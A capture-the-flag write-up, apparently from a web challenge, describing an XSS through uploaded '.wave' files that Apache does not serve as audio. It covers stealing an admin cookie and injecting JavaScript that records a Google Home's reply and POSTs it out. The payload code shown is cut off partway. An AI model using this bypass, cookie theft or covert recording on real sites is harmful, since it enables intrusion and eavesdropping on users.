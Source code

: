After uploading this evil wav, we are trying to XSS with `<script
src="uploads/filename.wav"></script>` but it didn't work. The reason is the
Apache server will return the content-type `audio/wave`. The browser will
check the type. If the type is `audio`, the broser will not include the file
for security reason.

That's annoying. After trying all the extension `ogg/wav/wave/webm/mp3`, we
found Apache doesn't recognize `*.wave` as a audio file. Therefore, if we
upload a file named `filename.wave`, and then include the script through
`<script src="filename.wave"></script>`, the javascript can be exeuted!

After XSS, we can steal the admin's cookie and login as admin. There are two
clips in the account. The first is intended to give the challenges the correct
command to Google Home, "OK Google, what is the flag?" The second clip is
telling us that the admin will only stay on the clips interested him. "Has
anyone else played "Toaster Wars"? Share me clips with 'spatulate' in the
description and I'll give them a listen!". So we just put "spatulate' in the
description.

The attack steps are listed below:

1. The admin clicks the clip which we shared.  
2. The audio of that clip, "Ok google, what is the flag?", will be played automatically.  
3. The description contains a malicious Javascript `<script src="js.wave"></script>`, and the admin will execute it.  
4. The js will automatically start recording what the Google home said.  
5. After recording for 8 seconds, it will stop recording and POST the audio to our website.

The javascript is here. I use a lot of `setTimeout()` to trace the admin's
behavior.

```js  
// Fake WAVE header  
window.onload = () => {  
   let errorElt = document.getElementById("error");  
   let recordButton = document.getElementById("audio-record");  
   let recordPlayback = document.getElementById("record-playback");  
   let uploadForm = document.getElementById("upload-form");  
   let mediaRecorder;  
   let mediaType =  
       !("MediaRecorder" in window) ? undefined  
       : MediaRecorder.isTypeSupported("audio/webm") ? "audio/webm"  
       : MediaRecorder.isTypeSupported("audio/ogg") ? "audio/ogg"  
       : undefined;  
   let mediaBlob;

   if (!mediaType) {  
       recordButton.disabled = true;  
       recordButton.innerText = "Not supported";  
   }

   let err = /err=([^&]*)/.exec(window.location.search);  
   if (errorElt && err) {  
       errorElt.className = "";  
       errorElt.innerText = decodeURIComponent(err[1].replace(/\+/g, " "));  
   }

   if (recordButton) {  
       recordButton.addEventListener("click", (e) => {  
           e.preventDefault();  
           if (!mediaType) {  
               return;  
           }  
           if (mediaRecorder) {  
               mediaRecorder.stop();  
               mediaRecorder = undefined;  
```